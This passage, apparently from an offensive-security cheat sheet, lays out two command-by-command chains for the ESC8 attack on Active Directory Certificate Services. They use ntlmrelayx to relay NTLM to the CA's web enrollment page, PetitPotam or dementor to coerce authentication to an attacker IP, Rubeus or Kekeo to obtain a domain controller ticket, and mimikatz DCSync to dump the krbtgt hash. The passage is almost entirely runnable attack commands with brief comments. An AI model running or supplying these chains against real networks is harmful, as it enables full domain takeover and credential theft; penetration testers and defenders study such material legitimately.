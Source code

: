     ```powershell
    impacket> python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs
    impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template VulnTemplate
    # For a member server or workstation, the template would be "Computer".
    # Other templates: workstation, DomainController, Machine, KerberosAuthentication
    
    # Coerce the authentication via MS-ESFRPC EfsRpcOpenFileRaw function with petitpotam 
    # You can also use any other way to coerce the authentication like PrintSpooler via MS-RPRN
    git clone https://github.com/topotam/PetitPotam
    python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
    python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
    python3 dementor.py <listener> <target> -u <username> -p <password> -d <domain>
    python3 dementor.py 10.10.10.250 10.10.10.10 -u user1 -p Password1 -d lab.local
    
    # Use the certificate with rubeus to request a TGT
    Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
    Rubeus.exe asktgt /user:dc1$ /certificate:MIIRdQIBAzC...mUUXS /ptt
    
    # Now you can use the TGT to perform a DCSync
    mimikatz> lsadump::dcsync /user:krbtgt
    ```
    
- **Version 2**: NTLM Relay + Mimikatz + Kekeo
    
    ```powershell
    impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
    
    # Mimikatz
    mimikatz> misc::efs /server:dc.lab.local /connect:<IP> /noauth
    
    # Kekeo
    kekeo> base64 /input:on
    kekeo> tgt::ask /pfx:<BASE64-CERT-FROM-NTLMRELAY> /user:dc$ /domain:lab.local /ptt
    
    # Mimikatz
    mimikatz> lsadump::dcsync /user:krbtgt
    ```
    